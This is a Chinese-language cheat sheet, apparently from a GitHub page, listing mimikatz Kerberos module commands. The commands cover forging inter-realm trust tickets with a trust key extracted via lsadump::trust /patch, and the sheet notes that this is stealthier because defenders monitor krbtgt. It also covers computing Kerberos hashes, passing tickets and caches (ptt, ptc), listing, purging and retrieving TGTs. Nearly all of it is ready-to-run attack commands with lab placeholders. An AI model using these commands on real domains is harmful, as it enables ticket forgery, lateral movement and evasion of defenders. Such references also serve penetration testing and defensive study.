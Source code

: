 
**Inter-Realm Trust Tickets**
要获得森林信任密钥，必须使用 lsadump::trust /patch 命令。根据森林信任关系，使用信任密钥而不是 krbtgt 帐户可能更隐蔽，因为大多数防御机制都在监视 krbtgt 帐户

```
mimikatz # kerberos::golden /user:<user_name> /domain:<domain_name> /sid:<domain_sid> /sids:<sid_of_target_domain> /rc4:<trust_key_RC4_key> /service:krbtgt /target:<the_target_domain> /ticket:<file_to_save>
```

## hash

根据给定的明文密码计算出不同的kerberos哈希（NTLM,AES128,AES256）

```
mimikatz # kerberos::hash /user:m3g9tr0n /domain:hacklab.local /password:Super_SecretPass1!
```

## list

具有类似于klist命令的功能，而不需要提升权限。与sekurlsa::tickets不同，该模块不与LSASS交互。

```
mimikatz # kerberos::list
```

## ptc

可以用来传递缓存。这类似于kerberos::ptt，它确实传递了票据，但不同的是，使用的票据是.ccache票据而不是.kirbi票据。
```
mimikatz # kerberos::ptc m3g9tr0n@HACKLAB.LOCAL_krbtgt~HACKLAB.LOCAL@HACKLAB.LOCAL.ccache
```

## ptt

用于通过在当前会话中注入一个或多个 Kerberos 票据来传递票据。票据可以是TGT（Ticket-Granting Ticket），也可以是ST（Service Ticket）。

```
mimikatz # kerberos::ptt 0-40e10000-m3g9tr0n@krbtgt~HACKLAB.LOCAL-HACKLAB.LOCAL.kirbi
```

## purge

清除票据，等价于```klist purge```命令
```
mimikatz # kerberos::purge
```

## tgt

检索当前用户的TGT（Ticket-Granting Ticket）。

```
mimikatz # kerberos::tgt
```
